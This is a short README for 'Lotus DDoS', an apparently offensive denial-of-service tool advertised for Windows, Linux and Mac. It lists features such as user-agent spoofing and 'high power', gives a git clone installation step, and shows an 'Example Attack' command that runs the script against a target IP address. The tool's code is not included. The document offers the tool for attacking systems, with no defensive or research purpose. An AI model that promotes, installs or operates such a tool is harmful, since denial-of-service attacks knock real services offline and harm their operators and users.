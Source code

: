 
# Lotus DDoS

An Advanced DDoS Tool For Windows/Linux/Mac 

## Features

- User Agent Spoofing
- High Power
- Proxyless
- Cross platform


## Installation

Installing Lotus DDoS

```bash 
  cd desktop
  git clone https://github.com/lotusempire64/LotusDDoS/
  cd LotusDDoS
```
## Usage 
```bash 
Help: python3 CresentMoon.py 
Example Attack: python3 CresentMoon.py -s 10.0.2.15 -l 800 
``` 
## Trouble-Shooting 
You May Have To Take The Files Out Of The Lotus DDoS Folder And Place Them On Your Desktop 

